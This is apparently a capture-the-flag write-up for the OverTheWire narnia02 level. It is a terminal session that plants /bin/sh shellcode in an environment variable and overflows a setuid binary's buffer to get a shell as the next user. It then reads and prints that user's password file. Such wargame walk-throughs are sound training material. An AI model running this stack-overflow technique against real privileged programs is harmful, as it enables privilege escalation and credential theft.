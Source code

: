 +++
title = "Over the wire - narnia02"
description = "Walk-through"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-02"
project_url = "https://greyhat.dk/over-the-wire-narnia-02"
type = "post"
+++



narnia2@melinda:/tmp$ cd d10
narnia2@melinda:/tmp/d10$ cat << EOF > getenv.c
> #include <stdio.h>
> #include <stdlib.h>
> #include <string.h>
> int main(int argc, char *argv[]) {
>         char *ptr;
>         if(argc < 3) {
>                 printf("Usage: %s <environment var> <target program name>\n", argv[0]);
>                 exit(0);
>         }
>         ptr = getenv(argv[1]); /* Get env var location. */
>         ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
>         printf("%s will be at %p\n", argv[1], ptr);
> }
> EOF
narnia2@melinda:/tmp/d10$ gcc getenv.c -o getenv
narnia2@melinda:/tmp/d10$ export EGG=$(python -c 'print "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"')
narnia2@melinda:/tmp/d10$ ./getenv EGG /narnia/narnia2
EGG will be at 0x7fffffffe922
narnia2@melinda:/tmp/d10$ file /narnia/narnia2
/narnia/narnia2: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=04d7450c01ac187b9bc8a55e19cbe81fe1eed7b1, not stripped
narnia2@melinda:/tmp/d10$ gcc -m32 getenv.c -o getenv
narnia2@melinda:/tmp/d10$ ./getenv EGG /narnia/narnia2
EGG will be at 0xffffd922
narnia2@melinda:/tmp/d10$ /narnia/narnia2 $(python -c 'print "A"*140 + "\x22\xd9\xff\xff")
> ^C
narnia2@melinda:/tmp/d10$ /narnia/narnia2 $(python -c 'print "A"*140 + "\x22\xd9\xff\xff"')
$ whoami
narnia3
$ /etc/narnia_pass/narnia3
/bin//sh: 2: /etc/narnia_pass/narnia3: Permission denied
$ cat /etc/narnia_pass/narnia3
vaequeezee
